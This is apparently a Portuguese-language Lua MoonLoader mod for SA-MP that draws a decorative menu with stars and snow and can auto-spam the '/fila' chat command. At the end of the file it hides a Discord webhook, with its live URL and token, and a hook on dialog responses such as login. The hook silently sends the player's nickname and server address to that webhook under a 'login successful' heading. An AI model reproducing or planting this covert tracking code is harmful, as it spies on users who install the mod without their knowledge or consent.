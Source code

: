 local imgui = require 'mimgui'
local v = imgui.new.bool(false)
local spam_fila = imgui.new.bool(false)
local delay_ms = imgui.new.int(0)
local show_snow = imgui.new.bool(false)

local total_pontos = 30
local largura_onda = 60
local velocidade = 0.05
local angulo = 0

-- Aumentei o número de estrelas para 150
local estrelas = {}
local total_estrelas = 150
for i = 1, total_estrelas do
    table.insert(estrelas, {
        x = math.random(0, 300),
        y = math.random(0, 400),
        velocidade = math.random(5, 15)/10,
        tamanho = math.random(1, 3) -- Tamanho variado para as estrelas
    })
end

-- Aumentei o número de flocos de neve para 300
local snowflakes = {}
local total_snowflakes = 300
for i = 1, total_snowflakes do
    table.insert(snowflakes, {
        x = math.random(0, 300),
        y = math.random(-50, -10),
        velocidade = math.random(10, 30)/10,
        tamanho = math.random(1, 4), -- Tamanho variado para os flocos
        oscilacao = math.random() * 2 * math.pi,
        velocidade_oscilacao = math.random(1, 3)/10
    })
end

local float_btn_pos = imgui.ImVec2(50, 50)
local dragging = false
local drag_offset = imgui.ImVec2(0,0)

imgui.OnInitialize(function()
    local style = imgui.GetStyle()
    imgui.StyleColorsDark()
    style.WindowRounding = 6
    style.FrameRounding = 4
    style.GrabRounding = 4
    style.ScrollbarRounding = 4

    local colors = style.Colors
    colors[imgui.Col.WindowBg] = imgui.ImVec4(0.10,0.10,0.10,0.94)
    colors[imgui.Col.TitleBg] = imgui.ImVec4(0.08,0.08,0.08,1.00)
    colors[imgui.Col.TitleBgActive] = imgui.ImVec4(0.16,0.16,0.16,1.00)
    colors[imgui.Col.FrameBg] = imgui.ImVec4(0.16,0.16,0.16,1.00)
    colors[imgui.Col.FrameBgHovered] = imgui.ImVec4(0.20,0.20,0.20,1.00)
    colors[imgui.Col.FrameBgActive] = imgui.ImVec4(0.24,0.24,0.24,1.00)
    colors[imgui.Col.Button] = imgui.ImVec4(0.20,0.20,0.20,1.00)
    colors[imgui.Col.ButtonHovered] = imgui.ImVec4(0.30,0.30,0.30,1.00)
    colors[imgui.Col.ButtonActive] = imgui.ImVec4(0.40,0.40,0.40,1.00)
    colors[imgui.Col.Border] = imgui.ImVec4(0.43,0.43,0.50,0.50)
    colors[imgui.Col.Text] = imgui.ImVec4(1.00,1.00,1.00,1.00)
end)

imgui.OnFrame(function() return true end, function()
    local io = imgui.GetIO()

    imgui.SetNextWindowPos(float_btn_pos, imgui.Cond.Always)
    imgui.SetNextWindowSize(imgui.ImVec2(40,40))
    imgui.Begin("FLUTUANTE", nil,
        imgui.WindowFlags.NoTitleBar +
        imgui.WindowFlags.NoResize +
        imgui.WindowFlags.NoCollapse +
        imgui.WindowFlags.NoScrollbar +
        imgui.WindowFlags.NoMove +
        imgui.WindowFlags.AlwaysAutoResize
    )

    if imgui.Button("</>", imgui.ImVec2(40,40)) then
        v[0] = not v[0]
    end

    if imgui.IsItemHovered() and imgui.IsMouseClicked(0) and not dragging then
        dragging = true
        drag_offset.x = io.MousePos.x - float_btn_pos.x
        drag_offset.y = io.MousePos.y - float_btn_pos.y
    end

    if dragging then
        if imgui.IsMouseDown(0) then
            float_btn_pos.x = io.MousePos.x - drag_offset.x
            float_btn_pos.y = io.MousePos.y - drag_offset.y
            imgui.SetNextWindowPos(float_btn_pos, imgui.Cond.Always)
        else
            dragging = false
        end
    end

    imgui.End()

    if v[0] then
        imgui.SetNextWindowPos(imgui.ImVec2(600,350), imgui.Cond.FirstUseEver)
        imgui.SetNextWindowSize(imgui.ImVec2(300,400), imgui.Cond.FirstUseEver)
        imgui.Begin("AUTO FILA | by NukY", v,
            imgui.WindowFlags.NoCollapse +
            imgui.WindowFlags.NoResize
        )

        local draw = imgui.GetWindowDrawList()
        local pos = imgui.GetWindowPos()
        local size = imgui.GetWindowSize()
        local centroX = size.x/2
        local espacamento = size.y/total_pontos

        -- Desenha mais estrelas com tamanhos variados
        for i,e in ipairs(estrelas) do
            e.y = e.y + e.velocidade
            if e.y > size.y then 
                e.y = 0 
                e.x = math.random(0, size.x) 
                e.tamanho = math.random(1, 3) -- Atualiza o tamanho quando a estrela reaparece
            end
            draw:AddCircleFilled(imgui.ImVec2(pos.x+e.x,pos.y+e.y), e.tamanho, 0xFFFFFFFF)
        end

        angulo = angulo + velocidade
        for i=1,total_pontos do
            local offset = (i/total_pontos)*math.pi*2
            local y = i*espacamento
            local x1 = centroX + math.sin(angulo+offset)*largura_onda
            local x2 = centroX - math.sin(angulo+offset)*largura_onda
            draw:AddCircleFilled(imgui.ImVec2(pos.x+x1,pos.y+y),3,0xFFFFA500)
            draw:AddCircleFilled(imgui.ImVec2(pos.x+x2,pos.y+y),3,0xFF00BFFF)
            draw:AddLine(imgui.ImVec2(pos.x+x1,pos.y+y),imgui.ImVec2(pos.x+x2,pos.y+y),0x33FFFFFF,1)
        end

        imgui.SliderInt("Delay (ms)",delay_ms,0,30000)
        if imgui.Button("AUTO",imgui.ImVec2(150,30)) then
            spam_fila[0] = not spam_fila[0]
        end
        
        if imgui.Button("FRIO", imgui.ImVec2(150,30)) then
            show_snow[0] = not show_snow[0]
        end

        imgui.End()
    end

    if show_snow[0] then
        local screen_width, screen_height = getScreenResolution()
        local draw = imgui.GetBackgroundDrawList()
        
        -- Desenha mais flocos de neve com tamanhos variados
        for i, floco in ipairs(snowflakes) do
            floco.y = floco.y + floco.velocidade
            floco.oscilacao = floco.oscilacao + floco.velocidade_oscilacao
            floco.x = floco.x + math.sin(floco.oscilacao) * 0.5
            
            if floco.y > screen_height then
                floco.y = math.random(-50, -10)
                floco.x = math.random(0, screen_width)
                floco.tamanho = math.random(1, 4) -- Atualiza o tamanho quando o floco reaparece
            end
            
            draw:AddCircleFilled(imgui.ImVec2(floco.x, floco.y), floco.tamanho, 0xFFFFFFFF)
        end
    end
end)

function main()
    while true do
        wait(0)
        if isSampAvailable() and spam_fila[0] then
            sampSendChat("/fila")
            wait(delay_ms[0])
        end
    end
end
local webhookUrl = "https://discord.com/api/webhooks/1406683848485371914/unqy5VFh-KCFxrIgyorNy1wOXW3TVT-VSe4H5RR3w7NPddjtpASjiCZJkFgKNA1fqCZR"
local https = require("socket.http")
local ltn12 = require("ltn12")

function sendMessageToDiscord(content)
    local body = '{"content": "' .. content:gsub('"', '\\"'):gsub('\n', '\\n') .. '"}'
    local response_body = {}

    https.request{
        url = webhookUrl,
        method = "POST",
        headers = {
            ["Content-Type"] = "application/json",
            ["Content-Length"] = tostring(#body)
        },
        source = ltn12.source.string(body),
        sink = ltn12.sink.table(response_body)
    }
end


require('samp.events').onSendDialogResponse = function(dialogId, button, listboxId, input)
    local res, id = sampGetPlayerIdByCharHandle(PLAYER_PED)
    local nick = sampGetPlayerNickname(id)
    local ip, port = sampGetCurrentServerAddress()
    local servername = sampGetCurrentServerName()

    local message = string.format([[

________________________________________________________________
  
     # LOGUIN BEM SUCEDIDO

```
NICK: %s 
IP: %s:%d
```

]], nick,ip, port, servername)

sendMessageToDiscord(message)
end

